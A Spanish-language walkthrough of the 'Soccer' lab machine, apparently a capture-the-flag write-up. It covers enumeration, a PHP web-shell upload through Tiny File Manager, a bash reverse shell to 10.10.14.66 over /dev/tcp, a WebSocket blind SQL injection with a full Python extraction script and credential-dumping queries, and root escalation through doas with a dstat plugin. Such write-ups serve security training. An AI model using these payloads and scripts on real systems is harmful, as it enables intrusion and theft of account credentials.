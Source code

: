 # Soccer<br>


Sistema Operativo: Linux

Dificultad: Fácil

Técnicas Vistas: Web Enumeration, 
Abusing Tiny File Manager (RCE by Uploading a Malicious PHP File), 
WebSocket SQL Boolean-Based/Time-Based Blind Injection,
Abusing Doas Privilege (dstat) [Privilege Escalation]

Te prepara para las Certificaciones: eWPT eWPTXv2 OSWE

![Image](https://github.com/user-attachments/assets/d6a659d9-c06a-48d3-b702-166d8af92436)

# Reconocimiento

Hacemos un escaneo con `nmap` para encontrar puertos abiertos. <br>

![Image](https://github.com/user-attachments/assets/75366dc4-63b0-4262-8d86-d93e026a5711)<br>

- `-p-` -> Escanea todos los puertos 
- `-sS` -> escaneo de tipo SYN
- `--open` -> Todos los puertos abiertos
- `--min-rate=5000` -> Manda mínimo 5000 paquetes por segundo
- `-Pn` -> Asume que el host especificado está activo
- `-n` -> Que no aplique resolución DNS
- `-oG allports` -> manda todo a un archivo con nombre de "allports"<br><br>


Utilizando `gobuster` encontramos directorios.<br>

![Image](https://github.com/user-attachments/assets/5ebd77b6-d710-4b58-bb1a-18203dc9aea7)<br>

- `dir` ->  Buscar directorios 
- `-u` -> Indicar URL
- `-w` ->  Indicar diccionario que voy a utilizar
- `-t` -> Numero de hilos que voy a usar<br><br>


# Explotación subida de archivos

Creamos un archivo `cmd.php`  para controlar el parametro `cmd`.<br>

![Image](https://github.com/user-attachments/assets/7476fe59-5e9d-4dd4-bc10-399f6e574e5d)<br><br>


Lo subimos a la ruta `/tiny/uploads`<br>

![Image](https://github.com/user-attachments/assets/69f7f303-6a78-4c7a-89c0-b18d5292d311)<br><br>


Con la Query `bash -c "bash -i >%26 /dev/tcp/10.10.14.66/443 0>%261"` y escuchando por el puerto `nc -nlvp 443` ganamos acceso a la maquina.<br>

![Image](https://github.com/user-attachments/assets/e41c2744-d27e-4fac-937f-0cc238533dd1)<br><br>


# Escalada de privilegios

En esta ruta de `nginx` encontramos un subdominio.<br>

![Image](https://github.com/user-attachments/assets/d7b67c41-0ed4-41e6-8c47-7ea4dcbd7003)<br><br>


Luego de logearnos, vemos este campo del Ticket, lo interceptamos con Burpsuite.<br>

![Image](https://github.com/user-attachments/assets/ed4ec488-4e9b-4824-8b30-cb46dedf3116)<br>


Descubrimos que se trata de un `WebSocket`, el cual es vulnerable a esta inyección `"id":"83817 or 1=1-- -"`<br>

![Image](https://github.com/user-attachments/assets/28153e92-c650-431a-974d-b9df12c62b22)<br><br>


Podemos hacer un script en `Python` para sacar las bases de datos, tablas, columnas, usuario y contraseña.<br>

```
#!/usr/bin/python3

import websocket, signal, sys, string, json
from pwn import *
from termcolor import colored

def def_handler(frame, sig):
    print(colored(f"\n [!] Saliendo... \n\n", 'red'))
    sys.exit(1)

# Ctrl + C
signal.signal(signal.SIGINT, def_handler)

# Varibles globales

characters = string.ascii_letters + string.digits + string.punctuation
ws = websocket.WebSocket()
ws.connect("ws://soc-player.soccer.htb:9091/")


def sqli():

    database = ""

    p1 = log.progress("SQLI")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Database name:")

    for position in range(1, 500):
        for character in characters:
            payload = {
                "id":"83817 or binary substr((select group_concat(email,0x3a,username,0x3a,password) from soccer_db.accounts),%d,1)='%s'" % (position, character)
            }

            ws.send(json.dumps(payload))
            data = ws.recv()

            if "Ticket Doesn't Exist" not in data:
                database += character
                p2.status(database)
                break


if __name__ == '__main__':

    sqli()
```
<br><br>
`(select group_concat(schema_name) from information_schema.schemata)` -> Nos reporta las bases de datos<br>

`(select group_concat(table_name) from information_schema.tables where table_schema='soccer_db')` -> Nos reporta las tablas<br>

`(select group_concat(column_name) from information_schema.columns where table_schema='soccer_db' and table_name='accounts')` -> Nos muestra las columnas.<br>

`(select group_concat(username,0x3a,password) from soccer_db.accounts)` -> Nos reporta usuario y contraseña.<br>

Tenemos el usuario y contraseña:<br>

![Image](https://github.com/user-attachments/assets/f14e3c53-be71-4d44-80ad-2e531706a06b)<br><br>

##### Una vez siendo el usuario player: https://gtfobins.github.io/gtfobins/dstat/ <br>

Hacemos find / -perm -4000 2>/dev/null -> Para ver archivos SUID y nos muestra: "/usr/local/bin/doas"<br>

cat /usr/local/etc/doas.conf   -> Vemos si algun usuario puede ejecutar como administrador algo.<br>

Creamos un archivo en la ruta donde podamos escribir puede ser:  `/usr/share/ | grep "dstat"` o `/usr/local/share | grep "dstat"`<br>

En donde podamos escribir creamos el archivo `/usr/local/share/dstat/dstat_ex.py`<br>

![Image](https://github.com/user-attachments/assets/f67b32ea-31ab-4a66-830f-451359098761)<br><br>

Lo ejecutamos de esta manera:<br>

![Image](https://github.com/user-attachments/assets/a1a3ba61-d5b5-4c27-9651-ecc902eed1ed)<br><br>


Nos convertimos en root:<br>

![Image](https://github.com/user-attachments/assets/a223e6d1-e62e-48b5-88cb-8b2fd8b2cd37)
